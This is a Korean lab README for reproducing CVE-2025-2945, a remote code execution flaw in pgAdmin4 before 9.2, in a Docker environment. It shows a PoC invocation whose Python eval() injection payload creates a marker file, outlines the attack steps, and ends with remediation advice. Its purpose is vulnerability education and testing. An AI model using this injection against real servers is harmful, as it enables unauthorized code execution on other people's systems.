




# CVE-2025-2945

**Contributors**
- [장원빈 (@onxvyn)](https://github.com/onxvyn)

# pgAdmin4 원격 코드 실행 (CVE-2025-2945)

pgAdmin4는 PostgreSQL 데이터베이스를 위한 오픈소스 웹 기반 관리 플랫폼입니다. 버전 9.2 미만에서 쿼리 툴의 `/sqleditor/query_tool/download` 엔드포인트가 `query_commited` 파라미터를 Python `eval()`에 검증 없이 전달합니다. 인증된 공격자는 이를 이용해 서버에서 임의의 코드를 실행할 수 있습니다.

### 참고 자료 (References)
- https://nvd.nist.gov/vuln/detail/CVE-2025-2945
- https://github.com/advisories/GHSA-g73c-fw68-pwx3
- https://github.com/Cycloctane/cve-2025-2945-poc

---

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 pgAdmin4 9.1 기반의 취약한 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

아래 명령어로 컨테이너가 실행중인지 확인합니다.
```bash
docker ps
```




**사전 요구사항 (Prerequisites)**

PoC 실행을 위해 Python `requests` 라이브러리가 필요합니다:

```bash
pip install requests
```

> **Note:** PostgreSQL 데이터베이스는 `docker-compose.yml`에 미리 설정되어 있습니다. 서비스 시작 후 `http://your-ip:5050`에 접속하면 로그인 페이지가 표시됩니다.



---

### 취약 조건

본 실습 환경에서 취약점이 재현되기 위한 조건은 다음과 같습니다.

1. pgAdmin4 9.2 미만 버전이 실행 중이어야 합니다.

2. 공격자가 pgAdmin4 웹 서비스에 접근할 수 있어야 합니다.

3. 유효한 pgAdmin4 계정 자격증명을 보유해야 합니다.

4. SQL 에디터를 초기화할 수 있는 PostgreSQL 데이터베이스가 연결되어 있어야 합니다.

5. `/sqleditor/query_tool/download` 엔드포인트에 조작된 `query_commited` 파라미터를 전송할 수 있어야 합니다.

---

### 취약점 재현 (Vulnerability Reproduction)

**1. 공격 전 상태 확인**

PoC 실행 전 marker 파일이 존재하지 않는지 확인합니다:

```bash
docker compose exec web ls -al /tmp/
```




**2. PoC 실행**

기본 자격증명(`vulhub@example.com` / `vulhub`)으로 아래 명령을 실행합니다:

```bash
python3 poc.py \
  --target-url http://your-ip:5050 \
  --username vulhub@example.com \
  --password vulhub \
  --db-user vulhub \
  --db-pass vulhub \
  --db-name vulhub \
  --payload "__import__('os').system('touch /tmp/CVE-2025-2945-success')"
```

PoC는 다음 순서로 동작합니다:

1. CSRF 토큰 획득 → pgAdmin4 로그인
2. 유효한 서버 ID 탐색
3. SQL 에디터 세션 초기화
4. `query_commited` 파라미터에 Python 코드 주입 → `eval()` 실행 → 원격 코드 실행(RCE)

> **Note:** `/sqleditor/query_tool/download` 요청은 HTTP 500을 반환하지만, 이는 `eval()` 실행 후 반환값 처리 과정에서 발생하는 오류로 명령 실행 자체는 이미 완료된 상태입니다. marker 파일 생성 여부로 성공을 판단합니다.

**3. 실행 결과 확인**

```bash
docker compose exec web ls -al /tmp/
```

아래와 같이 `/tmp` 디렉토리에 `CVE-2025-2945-success` 파일이 생성된 것을 확인할 수 있습니다:



---

### 대응 방안 (Remediation)

- pgAdmin4를 **9.2 이상**으로 업그레이드합니다. 해당 버전에서 `eval()` 대신 안전한 입력 파싱 방식으로 수정되었습니다.
- 즉시 업그레이드가 불가능한 경우, 방화벽 또는 리버스 프록시를 통해 pgAdmin4 웹 인터페이스의 외부 접근을 차단합니다.
- `/sqleditor/query_tool/download` 엔드포인트에 대한 비정상 요청을 모니터링합니다.
